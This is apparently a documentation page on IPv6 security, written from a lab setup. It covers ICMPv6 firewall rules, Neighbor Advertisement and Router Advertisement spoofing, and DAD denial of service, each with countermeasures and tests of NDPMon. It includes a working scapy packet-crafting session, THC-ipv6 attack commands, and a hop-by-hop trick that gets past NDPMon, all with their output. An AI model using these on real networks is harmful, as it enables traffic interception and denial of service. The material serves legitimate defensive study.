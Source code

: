 =============
IPv6 security
=============

--------------------
Something about IPv6
--------------------

- IPv6 development started in the early 1990 with few focus on security;
- Some IPv4 well known security breaches like arp poisoning, address spoofing, 
  etc. have their correspondent on IPv6;
- Some new IPv6 features create new vulnerabilities as well as transition process;
- There are already many IPv6 hacking tools available for anyone on the Internet;
- IPv6 deployment is still slow and vulnerabilities are not yet widely shared, 
  but this scenario is about to change.


It should be very easy to turn on IPv6 support and enable it to work, that
was the core idea of IPv6. You don't need dhcp anymore, everyone gets an IPv6
address for free and basically everything gets configured automatically.
That's for clients, but what should we do to make the router work?

Well it turns out if leave everyting on automatic, you will be actually very
insecure. Not only that will some old attacks affect you, but there are also new
ones that affect IPv6 users. To make IPv6 secure you must first configure it correctly
and then test the configurations.


-----------------------------------------------    
New IPv6 features and related security problems
-----------------------------------------------

**1.Larger Adress Space:**

    end to end architecture allowing full tracking and some applications 
    that were impossible with IPv4 and NAT, which changes the way network
    scanning and reconnaisance works. New BOGON threats.
    
    "Bogon filtering is the practice of filtering bogons, which are bogus
    IP addresses. Bogon is also an informal name for an IP packet on the public
    Internet that claims to be from an area of the IP address space reserved,
    but not yet allocated or delegated by the Internet Assigned Numbers Authority
    (IANA) or a delegated Regional Internet Registry (RIR). The areas of
    unallocated address space are called the bogon space."

**2.Enhanced Header:**

    simpler and more efficient header with 40 fixed bytes and adds the
    possibility of extension headers which leads to vulnerabilities related
    to them, opening new venues for attacks.

**3. Improved ICMP (ICMPv6) and Multicast management:**

    increased efficiency, allows auto-configuration, neighborhood discovery
    and multicast group management. No authentication can lead to different
    older attacks and new ones. Multicast capabilities can be exploited to
    gather network informations (reconnaissance).

**4. Auto configuration:**

    makes end user configuration easier. A very useful feature for a "tipical"
    computer user, who wants automatization. That also makes end users exposed
    to certain malicious attacks, specially at public locations.

**5. Fragmentation only at source:**

    data transmission are more efficient and have less overhead on intermediary
    routers. That makes ICMPv6 control more difficult, which leads to new
    attacks based on forged ICMPv6 messages.

**6. Mobility support:**

    mobility support integrated in the protocol allows nomadic and roaming
    applications. That means we get new connection interceptions with new
    man-in-the-middle and DOS (denial of service) attacks.

**7. IPv4 to IPv6 transition**

    since IPv4 is said to be used for at least 20 more years, transitioning
    from IPv4 to IPv6 means that most systems will have to run both and also
    use several tunneling techniques, meaning network adiminstrators have to
    put more effort in configuring the network which means more chance of
    having security holes, leading to possible new exploits and attacks.

--------------------------------------------
Get rid of the nat, it's time for firewalls!
--------------------------------------------

With ipv6 we get rid of NAT and all your devices have a public ipv6 address.
But if nat presented security feature in ipv4 networks, now you have to configure
your firewall, and configure it correctly. You have to make sure what you will
let in your network. 

First things first, let's make something clear. We will only let some kind of traffic
inside out network. That's gona be TCP, UDP and some ICMPv6 types. It's very
important which ICMPv6 packets you let in, because as we will see later ICMPv6
has gained much signifficant role in ipv6.

________________
Firewalling IPv6
________________

There's nothing special about firewalling ip layer, except now you will have to
filter all traffic to all hosts on your network.

Besides that, make sure to filter RH0 header, and i will copy-paste article 
why, taken form `here <http://www.deployingipv6.net/index.php/archives/2007/06/03/rh0/>`_::

    There’s been rather a lot of talk about RH0, that’s IPv6’s type 0 routing header. 
    Broadly speaking, the header allowed you to list a set of places that the 
    packet should go to before its final destination. In the book we commented 
    that source routing used to be a security hot button in IPv4, when 
    authentication based on source IPv4 address was common and packet filtering 
    was not. 

    The problems that we were thinking of were discussed at least going back to 
    the in the mid 90s, and related to source routing allowing any host on the 
    Internet to impersonate any other host and get the returned packets. Usually 
    someone who is doing IP spoofing is making a blind attack, because the replies 
    to the packets that they sent would not be routed back to them. With source 
    routing, some IP stacks would reverse the route for the returned packets, 
    allowing the attacker to get their hands on the replies. With network services 
    like rlogin being common, this was a big threat.

    Some other firewall evasion attacks were also possible with source routed 
    packets, but I think the IP spoofing attacks were most prominent in people’s 
    minds.

    It seems that IPv6 source routing has become a security hot button, but for 
    a slightly different reason. As far as I know, no IPv6 stacks ever reversed 
    the route, so the IP spoofing attacks have never been possible. The firewall 
    evasion attacks are still there, which I don’t think surprised anyone. However, 
    the attacks that caused RH0 to make the press are amplification attacks. 
    The attacks were demonstrated by Philippe Biondi and Arnaud Ebalard and a 
    nice summary was written by Geoff Huston.

    Interest in amplification attacks has grown since attacks like the smurf 
    attack appeared sometime around 1997 and particularly since denial of service 
    attacks became big news. I’m not sure that when the original problems with 
    IPv4 source routing were being discussed that amplification attacks were 
    really considered seriously. I think the full impact of amplification attacks 
    in the modern Internet, particularly with the proliferation of botnets, is 
    yet to fully understood.

    The outcome for IPv6 is that RH0 is now treated as a unknown header by many 
    IPv6 implementations, and will probably be formally retired by the IETF shortly. 
    Other types of routing header (particularly RH2, which is used by Mobile IPv6) 
    should continue to be operate normally, as they do not pose the same risks. 
    I think the remaining interesting question is how do we design a version of 
    RH0 which is both safe and useful.

______
ICMPv6
______

With ipv6 icmp has gained much signifficant role, because it's not only
used for error control and flow control like in ipv4, but it has also replaced
functionality that arp used to handle. 
Fragmentation, Neighbor Discovery, and StateLess Address AutoConfiguration 
(SLAAC) represent essential functionality which is now performed using ICMP messages. 
At the same time ICMP messages are designed to be sent to multicast addresses 
instead of unicast addresses.

There are roughly several actions that could be taken to protect agains attackers
abusing ICMPv6:

* Configure firewall correctly to protect agains malicious ICMPv6 messages,
  this is important for all kinds of environments, because this layer
  of security newer hurts, but will in most cases save your ass.
* Use :term:`IPSec`, this is especially feasible for production environemnts.
* Use :term:`SEnD` mechanism instead of pure :term:`NDP` without using IPSec. 
  SEnD uses RSA key pairs instead of IPSec to secure various ICMP messages.
  Implementing this mechanism could be difficult, because not all devices support
  it, but is again feasible for production environemnts.
* Use "intelligent" deprecation tool like `NDPMon <http://ndpmon.sourceforge.net>`_.
* Enable ipv6 privacy extensions on hosts using your network.

Most of the :term:`THC-ipv6` tools are ment especially for pentesting ICMPv6 security.

__________________
Firewalling ICMPv6
__________________

:term:`ICMPv6 types` that should be accepted originating and going to the internet 
are following:

.. tabularcolumns:: | p{1cm} | p{4cm} | p{1cm} | p{9cm} |

+----------------------------------------------+--------------------------------------------------------------------+
| Type                                         | Code                                                               |
+---------+------------------------------------+-------+------------------------------------------------------------+
| Value   | Meaning                            | Value | Meaning                                                    |
+---------+------------------------------------+-------+------------------------------------------------------------+
|                                  ICMPv6 Error Messages                                                            |
+---------+------------------------------------+-------+------------------------------------------------------------+
|    1    | Destination Unreachable            |   0   | no route to destination                                    |
|         |                                    |       |                                                            |
|         |                                    |   1   | communication with destination administratively prohibited |
|         |                                    |       |                                                            |
|         |                                    |   2   | beyond scope of source address                             |
|         |                                    |       |                                                            |
|         |                                    |   3   | address unreachable                                        |
|         |                                    |       |                                                            |
|         |                                    |   4   | port unreachable                                           |
|         |                                    |       |                                                            |
|         |                                    |   5   | source address failed ingress/egress policy                |
|         |                                    |       |                                                            |
|         |                                    |   6   | reject route to destination                                |
|         |                                    |       |                                                            |
|         |                                    |   7   | Error in Source Routing Header                             |
+---------+------------------------------------+-------+------------------------------------------------------------+
|    2    | Packet too big                     |   0   |                                                            |
+---------+------------------------------------+-------+------------------------------------------------------------+
|    3    | Time Exceeded                      |   0   | hop limit exceeded in transit                              |
|         |                                    |       |                                                            |
|         |                                    |   1   | fragment reassembly time exceeded                          |
+---------+------------------------------------+-------+------------------------------------------------------------+
|    4    | Parameter Problem                  |   0   | erroneous header field encountered                         |
|         |                                    |       |                                                            |
|         |                                    |   1   | unrecognized Next Header type encountered                  |
|         |                                    |       |                                                            |
|         |                                    |   2   | unrecognized IPv6 option encountered                       |
+---------+------------------------------------+-------+------------------------------------------------------------+
|                                  ICMPv6 Informational Messages                                                    |
+---------+------------------------------------+-------+------------------------------------------------------------+
|    128  | Echo request                       |   0   |                                                            |
+---------+------------------------------------+-------+------------------------------------------------------------+
|    129  | Echo reply                         |   0   |                                                            |
+---------+------------------------------------+-------+------------------------------------------------------------+

Everything else must get dropped!

On the local network the following additional ICMPv6 messages must be accepted:

.. tabularcolumns:: | p{1cm} | p{4cm} | p{1cm} | p{9cm} |

+---------+------------------------------------+-------+------------------------------------------------------------+
|                                  ICMPv6 Informational Messages                                                    |
+---------+------------------------------------+-------+------------------------------------------------------------+
|    133  | Router Solicitation (NDP)          |   0   | From hosts to router                                       |
+---------+------------------------------------+-------+------------------------------------------------------------+
|    134  | Router Advertisement (NDP)         |   0   | From router to hosts                                       |
+---------+------------------------------------+-------+------------------------------------------------------------+
|    135  | Neighbor Solicitation (NDP)        |   0   | Betwene hosts                                              |
+---------+------------------------------------+-------+------------------------------------------------------------+
|    136  | Neighbor Advertisement (NDP)       |   0   | Betwene hosts                                              |
+---------+------------------------------------+-------+------------------------------------------------------------+
|    137  | Redirect Message (NDP)             |   0   | From router to hosts, only if there are multiple routers   |
+---------+------------------------------------+-------+------------------------------------------------------------+

------------------------------
IPv6, ICMPv6 and local attacks
------------------------------

In this section we will present several possible attacks inside ipv6 networks and
needed actions to prevent against. Also some tests will be written latter
to garantee that speciffic network is secure against those attacks.

__________________________________________________________________________
Icmp :term:`Neighbor Solicitation`/:term:`Neighbor Advertisement` spoofing
__________________________________________________________________________

**Description**

.. image:: _static/NAspoofing.png

The ICMP router discovery messages are called :term:`Router Advertisement`
and :term:`Router Solicitation`. Each router periodically multicasts a 
Router Advertisement from each of its multicast interfaces, 
announcing the IP address(es) of that interface. Hosts discover the 
addresses of their neighboring routers simply by listening for 
advertisements. When a host attached to a multicast link starts up, 
it may multicast a Router Solicitation to ask for immediate advertisements, 
rather than waiting for the next periodic ones to arrive; 
if (and only if) no advertisements are forthcoming, the host may retransmit 
the solicitation a small number of times, but then must desist from 
sending any more solicitations. Any routers that subsequently start up, 
or that were not discovered because of packet loss or temporary link 
partitioning, are eventually discovered by reception of their periodic 
(unsolicited) advertisements.

Attacker is able to redirect all local traffic to your own system by answering 
falsely to :term:`Neighbor Solicitation` requests.

**Attack**

There's quite easy to perfrorm this attack. Well you can use :term:`THC-ipv6` 
parasite6 tool, but we will look up how you can craft up required packets by hand.

What you need to do is create :term:`Neighbor Advertisement` packet with spoofed
mac address. To know whom to spoof you just need to wait for :term:`Neighbor Solicitation`
multicast messages from other hosts on the network.

Here is an example of crafting fake :term:`Neighbor Advertisement` using :term:`scapy`::

    >>> ls(Ether)
    dst        : DestMACField         = (None)
    src        : SourceMACField       = (None)
    type       : XShortEnumField      = (0)
    >>> ether=(Ether(dst='08:00:27:ad:c8:30', src='ba:2d:7e:de:15:c6'))
    >>> ls(IPv6)
    version    : BitField             = (6)
    tc         : BitField             = (0)
    fl         : BitField             = (0)
    plen       : ShortField           = (None)
    nh         : ByteEnumField        = (59)
    hlim       : ByteField            = (64)
    src        : SourceIP6Field       = (None)
    dst        : IP6Field             = ('::1')
    >>> ipv6=IPv6(src='fe80::a00:27ff:fedb:225c', dst='fe80::a00:27ff:fead:c830')
    >>> ls(ICMPv6ND_NA)
    type       : ByteEnumField        = (136)
    code       : ByteField            = (0)
    cksum      : XShortField          = (None)
    R          : BitField             = (1)
    S          : BitField             = (0)
    O          : BitField             = (1)
    res        : XBitField            = (0)
    tgt        : IP6Field             = ('::')
    >>> na=ICMPv6ND_NA(tgt='fe80::a00:27ff:fedb:225c', R=0)
    >>> ls(ICMPv6NDOptDstLLAddr)
    type       : ByteField            = (2)
    len        : ByteField            = (1)
    lladdr     : MACField             = ('00:00:00:00:00:00')
    >>> lla=ICMPv6NDOptDstLLAddr(lladdr='ba:2d:7e:de:15:c6')
    >>> packet = ether/ipv6/na/lla

Now we send this packet and at the same time at the victim machine we monitor
neighbours on link::

    >>> sendp(packet, iface='priv', loop=1, inter=5)

Before the attack router's mac is not redirected to attacker::

    vagrant@priv:~$ ip -6 neigh show
    fe80::a00:27ff:fedb:225c dev eth1 lladdr 08:00:27:db:22:5c router STALE

After a few seconds of sending spoofed :term:`Neighbor Advertisement` packets,
mac address for router gets changed::

    vagrant@priv:~$ ip -6 neigh show
    fe80::a00:27ff:fedb:225c dev eth1 lladdr ba:2d:7e:de:15:c6 STALE

**Countermeasures**

It's not easy to prevent against this kind of attacks, but there still exists
some security measures like:

* Enter static mac addresses of routers

    This is especially usefull on managed environemnts. Setting static mac
    addresses will ensure that they won't get overwritten by attacker sending 
    bogous :term:`Neighbor Advertisement` messages. 

    To set static router MAC addresses on linux you can use following command::

        vagrant@priv:~$ sudo ip -6 neigh replace fe80::MAC lladdr MAC nud permanent dev device

    Neighbour entry is now permanent and :term:`NDP` can't change it, however
    communication betwene host on the network can still get redirected over
    attacker.

* Use :term:`SeND` or :term:`CGA`

    :term:`SeND` is using :term:`CGA` (Cryptographically Generated Address)
    which makes shure that :term:`Neighbor Advertisement` messages are authentic.

    There exists opensource solution called 
    `NDProtector <http://amnesiak.org/NDprotector/>`_, which implements :term:`CGA`
    in userspace.

    .. note:: 

        :term:`CGA` is not wildly deployed and no production read software exists for
        some operating systems, so it is advised not to use it, yet.

* Tunneling solutions like :term:`IPSec` should be used, but they are not wildly deployed.

_____________________________________
:term:`Router advertisement` spoofing
_____________________________________

  **Description**

  When host connects to ipv6 network it usually sends :term:`Router Solicitation`
  to find about active routers in the network on multicast address. Router sends
  periodicly or demand :term:`Router Advertisement` messsages, to inform hosts
  about:

    * IPv6 address prefix (so they can configure their address)
    * DNS server
    * MTU size
    * Should hosts go look for a DHCPv6 server or not
    * NTP server address

  Attacker can spoof :term:`Router Advertisement` messages and perform some pretty
  nasty attacks.

  **Attacks**

  * :term:`Router Advertisement` fake router

    .. image:: _static/RAspoofing.png

    This attack spoofs :term:`Router Advertisement` messsages and tries to become
    router with highest priority.

    :term:`THC-ipv6` tool fake_router6 performs this attack. You can try it with
    these simple commands::

        (ethertest)offlinehacker@ubuntu-dev:~/projects/ethertest# fake_router6 priv 2001:db8:0:1::/64
        Starting to advertise router 2001:db8:0:1:: (Press Control-C to end) ...

    We can quickly see spoofed messages in wireshark and after few moments default
    route on victim gets poisoned with new entry::

        vagrant@priv:~$ ip -6 route show
        2001:db8:0:1::/64 dev eth1  proto kernel  metric 256  expires 8590471sec
        fe80::/64 dev eth0  proto kernel  metric 256 
        fe80::/64 dev eth1  proto kernel  metric 256 
        default via fe80::a00:27ff:fedb:225c dev eth1  proto kernel  metric 1024  expires 86sec
        default via fe80::b82d:7eff:fede:15c6 dev eth1  proto kernel  metric 1024

    If we ping some external address like 2001:db8::fffe, we can quickly see
    that packets gets routed via attacker.

  * :term:`Router Advertisement` flood

    .. image:: _static/RAflood.png

    Hosts like Windows XP, 2003, Vista, 7, and 2003 don’t set a limit on the 
    amount of routers they like to listen to.  Whereas in Linux and Mac they 
    set their limit at right around 15.  If there are more than 15 different 
    RAs coming at them, they stop configuring the address and routes.

    If you send millions of RAs different IPv6 source addresses with different 
    IPv6 prefixes, you can, in a matter of seconds turn a fully functioning 
    Windows machine into a brick.

    :term:`THC-ipv6` tool flood_router6 does exactly that. There's a nice video
    demonstrating this attack avalible at 
    `http://www.youtube.com/watch?v=1EAnjZqXK9E <http://www.youtube.com/watch?v=1EAnjZqXK9E&feature=player_embedded>`_.

  **Countermeasures**

  :rfc:`6104` describes what we can do to prevent :term:`Router Advertisement` 
  spoofing:

  * Implement RA snooping

    Idea is that RAs observed from incorrect sources are blocked or dropped, 
    and not propagated through a subnet. One candidate solution in this space, 
    called "RA-Guard" proposed in :rfc:`6105`.

    .. note:

        This type of solution may not be applicable everywhere, e.g., in environments 
        where there are not centrally controlled or manageable switches.

    `Well it turns out that writing efficient RA guard is not that simple. <http://tachyondynamics.com/blog/?p=27>`_
    There are different evaison techniques, and one of interseting is by
    using fragmentation and putting :term:`Router Advertisement` right behind 
    destintion option header and inside fragmentation header. Once the destination 
    recives this packet (as by design) it puts the packet back together and sees 
    it as an IPv6 RA. 
    However, Destination Options are not meant to be read by intermediate 
    devices like firewalls and/or routers, and that is why the ease of evasion.

    .. image:: _static/2nd-technique-672px.png

  * SEcure Neighbor Discovery (:term:`SeND`)

  * Using Host-Based Packet Filters

    In a managed environment, hosts could be configured via their
    "personal firewall" to only accept RAs from trusted sources.  Hosts
    could also potentially be configured to discard 6to4-based RAs in a
    managed enterprise environment.

  * Adding Default Gateway/Prefix Options to DHCPv6

    Adding Default Gateway and Prefix options for DHCPv6 would allow
    network administrators to configure hosts to only use DHCPv6 for
    default gateway and prefix configuration in managed networks, where
    RAs would be required today.  A new document has proposed such a
    default router option, along with prefix advertisement options for
    DHCPv6. Even with such options added to DHCPv6,
    an RA is in principle still required to inform hosts to use DHCPv6.

    An advantage of DHCPv6 is that should an error be introduced, only
    hosts that have refreshed their DHCP information since that time are
    affected, while a multicast rogue RA will most likely affect all
    hosts immediately.  DHCPv6 also allows different answers to be given
    to different hosts.

    While making host configuration possible via DHCPv6 alone is a viable
    option that would allow IPv6 configuration to be done in a way
    similar to IPv4 today, the problem has only been shifted: rather than
    rogue RAs being the problem, rogue DHCPv6 servers would be an
    equivalent issue. As with IPv4, a network would then still require
    use of Authenticated DHCP, or DHCP(v6) snooping.

    There is certainly some demand in the community for DHCPv6-only host
    configuration. While this may mitigate the rogue RA issue, it simply
    moves the trust problem elsewhere, albeit to a place administrators
    are familiar with today.

  * Different Tunneling solutions

    Usage of :term:`IPSec`, 802.1X and similar should give you another
    layer of protection, but will cost you performance.

  * Using an "Intelligent" Deprecation Tool

    It is possible to run a daemon on a link (perhaps on the router on
    the link) to watch for incorrect RAs and to send a deprecating RA
    with a router lifetime of zero when such an RA is observed.

    .. note::

        `NDPMon <http://ndpmon.sourceforge.net/>`_ is opensource tool that
        detects anomalies in ICMPv6 and can perform actions, like sending
        mail to administrator or similar.

  **Trying out NDPMon**

    We tried out how `NDPMon <http://ndpmon.sourceforge.net/>`_ performs
    ad "Intelligent" Deprecation tool.
    It should be easy to setup, and it should learn itself which hosts are
    routers and wich hosts are the neighbours.
    
    Version provided by different linux distribution package managers is sometimes old,
    it's advised to build it from source. You can find instructions at
    `ndpmon <http://ndpmon.sourceforge.net/index.php?n=Doc.Installation>`_.

    After you do that, you just need to configure it. Basicly you need to specify
    mac, link local addresses of your router interface and ipv6 network prefix::

        vagrant@router:~$ cat /etc/ndpmon/config_ndpmon.xml

        [...]
        <probes>
        <probe name="eth2" type="interface">
            <countermeasures_enabled>1<countermeasures_enabled>
        <routers>
            <router>
                <mac>08:00:27:db:22:5c</mac>
                <lla>fe80::a00:27ff:fedb:225c</lla>
                <param_curhoplimit>64</param_curhoplimit>
                <param_flags_reserved>0</param_flags_reserved>
                <param_router_lifetime>10800</param_router_lifetime>
                <param_reachable_timer>0</param_reachable_timer>
                <param_retrans_timer>0</param_retrans_timer>
                <param_mtu>0</param_mtu>
                <params_volatile>1</params_volatile>
                <addresses/>
                <prefixes>
                    <prefix>
                    <address>2001:db8:0:1::</address>
                    <mask>64</mask>
                    <param_flags_reserved>224</param_flags_reserved>
                    <param_valid_time>2592000</param_valid_time>
                    <param_preferred_time>604800</param_preferred_time>
                    </prefix>
                </prefixes>
            </router>
        </routers>
        </probe>
        </probes>
        [...]

    As you can see NDPMon can run it's probes on multiple interfaces, even on
    remote hosts.

    When there is no attacker NDPMon does not report any alert::

        vagrant@router:~$ sudo ndpmon
        ----- Initialization -----
        Reading configuration file: "/etc/ndpmon/config_ndpmon.xml" ...
        [settings] NDPMon general settings: {
            actions high priority {
                syslog
                no sendmail
                no pipe program
            }
            actions low priority {
                syslog
                no sendmail
                no pipe program
            }
            admin mail root@localhost
            ignor autoconf
            syslog facility LOG_LOCAL1
            no use reverse hostlookups
        }
        [parser] Finished reading the configuration.
        Reading neighbors file: "/var/local/lib/ndpmon/neighbor_list.xml" ...
        [parser] Finished reading the neighbor cache.
        ------------------

        [capture_pcap] Listening on interface eth2.
        ----- ND_ROUTER_ADVERT -----
        Reset timer for 8:0:27:db:22:5c fe80::a00:27ff:fedb:225c
        [parser] Writing cache...
        ------------------

    But if we want to advertise fake router, we can quickly notice new alerts::

        root@ubuntu-dev:~/projects/ethertest# fake_router6 priv 2001:db8:0:1::/64

        ----- ND_ROUTER_ADVERT -----
        [alerts] Alert "wrong ipv6 router" raised on probe "eth2".
        ------------------

    It would be fun to see what happens if we turn on countermeasures::

        vagrant@router:~$ cat /etc/ndpmon/config_ndpmon.xml

        [...]
        <countermeasures>
            <kill_illegitimate_router>RESPOND</kill_illegitimate_router>
            <kill_wrong_prefix>LAUNCH AFTER 10</kill_wrong_prefix>
            <propagate_router_params>CEASE AFTER 10</propagate_router_params>
            <propagate_router_dns>RESPOND</propagate_router_dns>
            <propagate_router_routes>RESPOND</propagate_router_routes>
            <propagate_neighbor_mac>RESPOND</propagate_neighbor_mac>
            <indicate_ndpmon_presence>SUPPRESS</indicate_ndpmon_presence>
        </countermeasures>
        [...]

    We start NDPMon with countermeasures enabled, and we can quickly see that
    they are pretty effective::

        ----- ND_ROUTER_ADVERT -----
        [alerts] Alert "wrong ipv6 router" raised on probe "eth2".
        [countermeasures]: Sent zero lifetime advertisement for illegitimate router.
        ------------------

        ---- ICMP packet ----
        [countermeasures]: Packet dropped as it is a NDPMon counter measure.
        ------------------
       
    As we can see packet is dropped on router and zero lifetime advertisement for
    illegitimate router is send. We can quickly notice that default gateway does
    not get poisoned::

        vagrant@router:~$ sudo ndpmon

        [...]
        vagrant@priv:~$ ip -6 route show
        2001:db8:0:1::/64 dev eth1  proto kernel  metric 256  expires 8590471sec
        fe80::/64 dev eth0  proto kernel  metric 256 
        fe80::/64 dev eth1  proto kernel  metric 256 
        default via fe80::a00:27ff:fedb:225c dev eth1  proto kernel  metric 1024  expires 86sec

    I was wondering if i could evade countermeasures if i turn on :term:`hop-by-hop`
    header using::

        root@ubuntu-dev:~/projects/ethertest# fake_router6 -H priv 2001:db8:0:1::/64
        Starting to advertise router 2001:db8:0:1:: (Press Control-C to end) ...

    Well surprisingly it turned out it worked, NDPMon didn't detect fake 
    :term:`Router Advertisement` packets anymore and i was happily able to poison
    ipv6 routes once again::

        vagrant@priv:~$ ip -6 route show
        2001:db8:0:1::/64 dev eth1  proto kernel  metric 256  expires 8590471sec
        fe80::/64 dev eth0  proto kernel  metric 256 
        fe80::/64 dev eth1  proto kernel  metric 256 
        default via fe80::a00:27ff:fedb:225c dev eth1  proto kernel  metric 1024  expires 67sec
        default via fe80::b82d:7eff:fede:15c6 dev eth1  proto kernel  metric 1024

    So it looks like NDPMon was not so affective after all and we can summarize
    that currently no effective opensource tool, besides tunneling mechanisms 
    exists that would protect against :term:`Router Advertisement` spoofing.

    .. note::

        NDPMon is not useless afterall, it is still able to identify and report
        about new hosts on a network and could be easyly used to monitor managed
        environemnts. At the same time smart attaker won't make any noise and
        only attack speciffic hosts on a switched networks and usually won't be
        detected.

_________________________________________
Denial of Service (DoS) with IP conflicts
_________________________________________

  **Description**
 
  Duplicate address detection (DAD) allows hosts to detect if some ipv6 address is
  already assigned when performing :term:`SLAAC`. The process can be described
  as following:

  1. Node tries to assign some address X to it's interface
  2. First it joins multicast group FF02::1 for add nodes and FF02::1:FF00:0:X
  3. It checks if there's any :term:`Neighbor Solicitation` query with same ip
  4. Then it sends :term:`Neighbor Solicitation` query with destination of
     FF02::1:FF00:0:X to ask if there's anybody with this ip on the network
  5. It checks for any :term:`Neighbor Advertisement` to address FF02::1

  In case of events 3 or 5, address is already taken, else node can use it.

  Well what happens if attacker allways responds to DAD with a positive, DDOS.

  **Attack**

  We will once again use `THC-ipc6` tool dos-new-ipv6::

    root@ubuntu-dev:~/projects/ethertest# dos-new-ip6 priv
    Started ICMP6 DAD Denial-of-Service (Press Control-C to end) ...
    Spoofed packet for existing ip6 as fe80::a00:27ff:fead:c830
    Spoofed packet for existing ip6 as fe80::a00:27ff:fead:c830
    Spoofed packet for existing ip6 as 2001:db8:0:1:f489:f23b:bb34:2a44
    Spoofed packet for existing ip6 as 2001:db8:0:1:f489:f23b:bb34:2a44
    Spoofed packet for existing ip6 as 2001:db8:0:1:a00:27ff:fead:c830
    Spoofed packet for existing ip6 as 2001:db8:0:1:a00:27ff:fead:c830
    Spoofed packet for existing ip6 as 2001:db8:0:1:e470:b690:2817:cf15
    Spoofed packet for existing ip6 as 2001:db8:0:1:e470:b690:2817:cf15
    Spoofed packet for existing ip6 as 2001:db8:0:1:e82a:43ce:d93:c667
    Spoofed packet for existing ip6 as 2001:db8:0:1:e82a:43ce:d93:c667
 
  As we can see host tried many times, but was unable to get ip. If we examine
  host ip configuration, ip is not assigned to interface::

    vagrant@priv:~$ ifconfig

    [...]
    eth1      Link encap:Ethernet  HWaddr 08:00:27:ad:c8:30  
            inet addr:10.1.0.18  Bcast:10.1.255.255  Mask:255.255.0.0
            inet6 addr: fe80::a00:27ff:fead:c830/64 Scope:Link
            UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
            RX packets:15677 errors:0 dropped:0 overruns:0 frame:0
            TX packets:1829 errors:0 dropped:0 overruns:0 carrier:0
            collisions:0 txqueuelen:1000 
            RX bytes:1615960 (1.6 MB)  TX bytes:188906 (188.9 KB)
    [...]

  **Countermeasures**

  This attack shares a lot in common with term :term:`Router Advertisement`
  spoofing, so similar methods for prevention could be used.

  .. note::

    We decided to try out what NDPMon says about this attack, if tool is able to
    detect it. It turned out it was useless.

* Denial of Service (DoS) with Neighbor floods

There are also some other local attacks that are possible, but like presented
there are no effective mechanism, besides different tunneling to prevent attacks 
inside ipv6 networks.

---------------------
Secure implementation
---------------------

We have tried to prevent these attacks and find out that only tunneling mechanisms
like :term:`IPSec` or link based authentication mechanisms like :term:`802.11q`
can protect agains local attacks. 

.. note::

    For demonstration there's avalible a secure implementation of network
    using :term:`IPSec` avalible :doc:`here <linux_standard_corporate>`
